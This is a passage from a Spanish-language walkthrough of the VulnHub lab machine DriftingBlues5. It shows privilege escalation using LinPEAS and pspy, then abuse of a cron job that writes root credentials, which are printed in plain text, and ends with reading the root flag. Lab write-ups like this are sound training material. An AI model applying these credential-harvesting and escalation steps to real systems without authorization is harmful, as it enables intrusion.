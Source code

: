 ![keeweb](/assets/img/commons/vulnhub/DriftingBlues5/keeweb.png){: .center-image }

Vamos a profundizar en detalle sobre como podríamos escalar privilegios mediante el script [**LinPEAS**](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).
También vamos a monitorizar procesos con [**Pspy**](https://github.com/DominicBreuker/pspy).

Con lo cual obtenemos los siguientes datos:

![linpeas](/assets/img/commons/vulnhub/DriftingBlues5/linpeas.png){: .center-image }

![pspy](/assets/img/commons/vulnhub/DriftingBlues5/pspy.png){: .center-image }


En esto punto podemos pensar que los datos obtenidos del archivo *keyfile.kdbx* deben tener algo que ver en esta tarea *CRON* y especialmente en el directorio `/keyfolder`{: .filepath}. 

Procedemos a crear archivos con dichos nombres y esperar 1 minuto para ver si la tarea CRON realiza alguna modificación o si agrega algo más.

```bash
gill@driftingblues:/keyfolder$ touch 2real4surreal buddyretard closet313 exalted fracturedocean zakkwylde
gill@driftingblues:/keyfolder$ ls
fracturedocean 2real4surreal buddyretard closet313 exalted zakkwylde rootcreds.txt
gill@driftingblues:/keyfolder$ cat rootcreds.txt
root creds

imjustdrifting31
gill@driftingblues:/keyfolder$ su - root
Password:
root@driftingblues:~# cd /root
root@driftingblues:~# ls
key.sh  root.txt
root@driftingblues:~# cat root.txt
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
```